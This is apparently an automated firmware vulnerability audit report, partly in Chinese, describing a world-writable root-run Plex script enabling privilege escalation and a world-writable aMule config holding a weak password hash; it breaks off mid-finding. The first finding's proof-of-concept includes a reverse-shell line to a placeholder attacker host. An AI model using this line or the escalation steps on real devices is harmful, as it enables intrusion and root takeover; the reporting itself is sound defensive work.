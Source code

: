 
## 原始信息

- **文件/目录路径：** `etc/plexmediaserver/cmdplexmediaserver`
- **位置：** `cmdplexmediaserver`
- **描述：** 文件 'cmdplexmediaserver' 具有全局读写执行权限（777），允许任何用户修改其内容。脚本以 root 权限运行（推断自使用特权命令如 `kill` 和 `taskset`），处理 NVRAM 配置输入（如 `plexmediaserver_enable`、`plex_select_usb`）。攻击者（非 root 用户）可以利用此漏洞：1) 直接修改脚本内容，插入恶意代码（例如反向 shell 或命令执行）；2) 触发脚本执行（通过系统事件或调用带 'start'/'stop' 参数），从而提升权限到 root。攻击条件简单：攻击者需有文件系统访问权限和登录凭据，无需复杂输入验证绕过。
- **代码片段：**
  ```
  -rwxrwxrwx 1 user user 6855 6月   5  2017 cmdplexmediaserver
  ```
- **备注：** 文件权限漏洞是直接可利用的，但需要验证脚本是否以 root 权限执行（基于命令使用推断）。建议检查系统启动脚本或进程以确认执行上下文。此外，NVRAM 配置输入可能引入其他攻击向量，但当前漏洞链已完整。后续分析应关注其他脚本（如 /etc/plexmediaserver/plexmediaserver_monitor.sh）的权限和内容。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** The file 'etc/plexmediaserver/cmdplexmediaserver' has world-writable and executable permissions (777), as confirmed by 'ls -l'. The script content reveals the use of privileged commands (e.g., 'kill', 'taskset', '/bin/config') and interaction with NVRAM configuration (e.g., 'plexmediaserver_enable', 'plex_select_usb'), which are typically restricted to root. This infers that the script runs with root privileges when invoked by system processes (e.g., during boot or service management). An attacker with filesystem access and login credentials (non-root user) can directly modify the script to insert malicious code (e.g., a reverse shell or command execution). The script can be triggered via system events (e.g., reboot) or by calling it with 'start'/'stop' parameters, leading to privilege escalation to root. PoC: 1) Attacker gains shell access as a non-root user. 2) Attacker modifies the script using a text editor (e.g., 'vi etc/plexmediaserver/cmdplexmediaserver') and adds malicious code, such as 'bash -i >& /dev/tcp/attacker-ip/port 0>&1' for a reverse shell. 3) Attacker triggers execution by invoking '/etc/plexmediaserver/cmdplexmediaserver start' or waits for a system event. Since the script runs with root privileges, the malicious code executes as root, completing the exploit chain.

## 验证指标

- **验证时长：** 198.37 秒
- **Token 使用量：** 269310

---

## 原始信息

- **文件/目录路径：** `etc/aMule/remote.conf`
- **位置：** `remote.conf`
- **描述：** The 'remote.conf' file contains sensitive remote access configuration, including port (4712) and an MD5-hashed password (5f4dcc3b5aa765d61d8327deb882cf99, which is the hash of 'password'). The file has world-writable permissions (-rwxrwxrwx), allowing any authenticated non-root user to modify it. Attackers can change the password to a known hash and restart the aMule service using the executable 'amule.sh' script (which also has world-executable permissions). This could grant unauthorized remote access to the aMule service, potentially allowing control over service operations like file downloads or uploads. However, the service typically runs with user privileges when started by a non-root user, and there is no evidence of missing validation or boundary checks in the configuration parsing that could lead to code execution or privilege escalation. The attack requires the user to restart the service via 'amule.sh', which is feasible but does not escalate privileges beyond the user's existing access.
- **代码片段：**
  ```
  File content from 'cat remote.conf':
  Locale=
  [EC]
  Host=localhost
  ```